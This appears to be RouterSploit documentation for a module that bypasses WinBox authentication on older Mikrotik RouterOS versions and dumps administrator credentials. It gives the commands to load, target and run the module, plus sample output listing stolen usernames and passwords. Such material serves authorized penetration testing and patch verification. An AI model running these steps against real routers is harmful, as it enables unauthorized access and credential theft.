 ## Description

Module bypass authentication through WinBox service in Mikrotik devices version from 6.29 (release date: 2015/28/05) to 6.42 (release date 2018/04/20) and retrieves administrative credentials.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use exploits/routers/mikrotik/winbox_auth_bypass_creds_disclosure`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If device is vulnerable administrative credentials are returned.

## Scenarios

```
rsf > use exploits/routers/mikrotik/winbox_auth_bypass_creds_disclosure
rsf (Mikrotik WinBox Auth Bypass - Creds Disclosure) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Mikrotik WinBox Auth Bypass - Creds Disclosure) > run
[*] Running module...
[*] Connection established
[+] Target seems to be vulnerable
[*] Dumping credentials

   Username     Password
   --------     --------
   user1        test
   admin        admin
   admin        admin
```
